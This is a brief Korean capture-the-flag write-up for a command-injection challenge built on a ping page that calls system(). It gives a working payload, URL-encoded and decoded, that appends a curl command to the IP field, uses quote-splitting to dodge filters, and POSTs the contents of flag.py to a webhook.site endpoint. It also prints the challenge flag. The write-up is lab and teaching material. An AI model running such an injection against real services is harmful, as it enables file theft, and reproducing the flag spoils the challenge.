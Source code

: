 # cmdi
사이트에 접속하면 Ping을 보낼 수 있는 Page가 나온다.

이 페이지에서 system 함수를 호출하기 때문에 html pattern을 제거하고 curl을 통해 외부 서버로 flag.py를 전송하였다. 

```
127.0.0.1%22+%7C+curl+-X+POST+https%3A%2F%2Fwebhook.site%2Fwebhook-id%2F+-d+%22%24%28c%22a%22t+%22fla%22g.py%29%22+%23

==

127.0.0.1" | curl -X POST https://webhook.site/webhook-id/ -d "$(c"a"t "fla"g.py)" #
```

## Flag
FLAG = 'flag{inject_into_my_heart}'
